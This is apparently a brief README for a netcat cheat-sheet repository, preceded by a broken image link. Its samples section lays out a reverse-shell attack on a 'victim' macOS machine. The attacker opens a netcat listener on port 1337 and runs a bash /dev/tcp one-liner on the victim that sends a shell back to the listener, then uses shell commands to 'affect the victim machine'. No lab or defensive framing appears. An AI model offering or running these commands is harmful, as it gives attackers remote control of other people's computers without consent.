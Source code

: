 ## How to use netcat

You can find some sheet and samples in the [Readme](https://github.com/doctordeep/netcat_cheat_sheet_v1/tree/master/readme) folder

## Samples

Victim OSx machine:
1. Open a **listener** on your machine run in shell (linux) `nc -l -p 1337`
2. run `bash -i >& /dev/tcp/listener_ip_address/1337 0>&1` on mac shell **victim** machine (remember to add the ip address of the listener) 
3. **Use shell commands** from your listener machine to affect the victim machine
